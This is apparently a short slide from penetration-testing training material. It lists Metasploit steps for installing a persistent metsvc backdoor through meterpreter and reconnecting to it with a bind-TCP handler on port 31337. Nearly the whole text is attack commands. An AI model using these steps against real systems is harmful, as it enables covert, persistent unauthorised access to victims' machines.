

#
Metasploit metsvc backdoor
Install via meterpreter
Migrate meterpreter
Run metsvc
When reconnecting:
Use exploit/multi/handler
Set payload windows/metsvc_bind_tcp
Set LPORT 31337
Set RHOST *target*
Exploit
Should connect straight to backdoor